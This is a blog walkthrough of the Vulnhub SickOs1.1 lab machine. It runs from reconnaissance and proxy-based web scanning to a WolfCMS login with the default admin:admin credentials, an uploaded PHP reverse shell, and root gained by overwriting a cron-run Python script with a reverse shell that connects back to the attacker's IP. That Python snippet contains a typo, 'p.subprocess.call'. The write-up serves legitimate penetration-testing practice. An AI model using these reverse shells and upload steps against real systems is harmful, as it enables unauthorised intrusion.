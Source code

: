 ```yaml
---
title:      "SickOs1.1 WriteUp"
date:       2016-10-29 18:00:00
tags: [pentesting,writeup,vulnhub,sickos]
---
```

Today we will be solving a boot2root virtual machine from [vulnhub](http://www.vulnhub.com) that promises to be very interesting.

According to its creator, it is an entry-level machine, similar to the ones we could face on the OSCP labs, so if anyone is interested in tackling this certification, this could be an interesting starting point.

## Reconnaissance
Once booted the virtual machine (loaded on VMWare Player, NAT network configuration), we start by locating the machine with __*netdiscover*__ from the attacking machine in the same virtual network (A Kali distro in my case).

{% include image.html
            img="images/sickos1/sickos1.1-1.png"
            title="Execution of the netdiscover tool"
            caption="IPs .1, .2 and .254 are the ones used by VMWare for NAT administration, so the address of our victim is 172.16.159.129" %}

## Scanning
Our inseparable friend *__nmap__* could not miss the party. Initially, we launch a complete scan on every TCP port to see what services may be running.

{% include image.html
            img="images/sickos1/sickos1.1-2.png"
            title="nmap scan"
            caption="Preliminary scan with nmap" %}

We have __an SSH server open and a SQUID server__. The SSH server does not seem to be a vulnerable version, so SQUID will be our main attack vector for now.

### Fiddling with the proxy
Inspecting the SQUID server via browser we find out that it is working as an access filter.

{% include image.html
            img="images/sickos1/sickos1.1-3.png"
            title="SQUID error message"
            caption="While accessing the webpage, SQUID blocks our access, suggesting us how we could ask for redirectioning" %}

Editing the browser settings enables us to access through the proxy server offered by SQUID.

{% include image.html
            img="images/sickos1/sickos1.1-4.png"
            title="Browser proxy settings"
            caption="From now on, all our browser traffic will go trough the proxy, so it will be possible to access new resources" %}

Once the proxy is configured, it is logical to start trying with well-known ports in order to determine whether there is any web server running.

### Web scanning
We find an apparently simple web page on TCP port 80.

{% include image.html
            img="images/sickos1/sickos1.1-5.png"
            title="Web server on port 80"
            caption="HTML page without much more to offer" %}

Now that we know that there is a server running, it is worth trying *__nikto__* on it.

{% include image.html
            img="images/sickos1/sickos1.1-6.png"
            title="First half of nikto scan"
            caption="First half of nikto scan, the proxy is used for redirecting the scan" %}


{% include image.html
            img="images/sickos1/sickos1.1-7.png"
            title="Second half of nikto scan"
            caption="Second half of nikto scan" %}

Among all the interesting information found, we could make two important points:
* There exists a __robots.txt__ file, which kindly requests to search engine spiders not to index some pages inside a website, so it could contain something interesting.
* Some CGI are vulnerable to __shellshock__.

Willing to continue on the scanning stage, I decided to investigate the __robots.txt__ file, having __shellshock__ as ace on my sleeve just in case.

The __robots.txt__ file contains the following:  
    User-agent: *  
    Disallow: /  
    Disallow: /wolfcms

### WolfCMS
The */wolfcms* route seems promising, let's take a look.

{% include image.html
            img="images/sickos1/sickos1.1-8.png"
            title="WolfCMS initial page"
            caption="WolfCMS initial page" %}

A content management system is always something interesting, as it could enable us to upload interesting files to the server. After digging a bit inside the official documentation, we discover the administrator login page.

{% include image.html
            img="images/sickos1/sickos1.1-9.png"
            title="WolfCMS admin login"
            caption="WolfCMS admistrator login page" %}

## Intrusion

### Web service
After various user and password combination random tests, we are lucky with __admin:admin__. It is certainly not the most impressive way of breaking into a system, but human mistakes as easy credentials are always dangerous risks that play in favour of an attacker.

### Limited shell
We find an administration interface that allows to upload files to the */public* directory. As we already knew, what we have is an __Apache__ server on our hands (thanks *__nikto__*) so we will try with a __[PHP script](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) for a reverse TCP connection__.


{% include image.html
            img="images/sickos1/sickos1.1-10.png"
            title="WolfCMS administrator interface"
            caption="WolfCMS administrator interface" %}

The next thing to do is opening a listening port with *__netcat__* in order to receive the connection request from our victim.

{% include image.html
            img="images/sickos1/sickos1.1-11.png"
            title="nc -v -n -l -p 9999"
            caption="Open listening port on attacking machine" %}

After modifying the script in order to point at our IP and TCP port, __we upload it and invoke the script from *http://172.16.159.129/wolfcms/public/php-reverse-shell.php*__ on the browser, and we will obtain a limited shell.

{% include image.html
            img="images/sickos1/sickos1.1-12.png"
            title="Receiving the reverse TCP shell"
            caption="Access to system with user __www-data__" %}

### Privilege Escalation
Once inside the server, we start snooping the directory tree until we find what will be the key to root.

{% include image.html
            img="images/sickos1/sickos1.1-13.png"
            title="ls /etc/cron.d; cat /etc/cron.d/automate"
            caption="Script executed by root every minute" %}

It appears that we have writing permission on a python script executed by user __root__ every minute through *crontab*. From here on, there are many ways of proceeding, but I chose to keep with the reverse shell technique.

Adapting __[this one-line command](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)__, we substitute the python file for the next script:

```python
#!/usr/bin/python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("172.16.159.128",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p.subprocess.call(["/bin/sh","-i"])
```
With the script ready, we only have to wait until it is executed and obtain a root shell.

{% include image.html
            img="images/sickos1/sickos1.1-14.png"
            title="-v -n -l -p 1234"
            caption="Obtaining root shell" %}

## Flag
Finally, we obtain the flag from the */root* directory.

{% include image.html
            img="images/sickos1/sickos1.1-15.png"
            title="Flag."
            caption="CTF flag" %}

## Conclusions
It is obviously not the hardest machine you can find out there, yet it is very complete and close to reality. All pentesting steps must be covered (skipping *footprinting*, naturally) and, as it is common, there is not only one way of clearing the obstacles to our goal. In my opinion, a funny machine, useful for dusting off old habits and skills.



<iframe width="420" height="315" src="http://www.youtube.com/embed/fJwWUiVJhLU" frameborder="0" allowfullscreen></iframe>

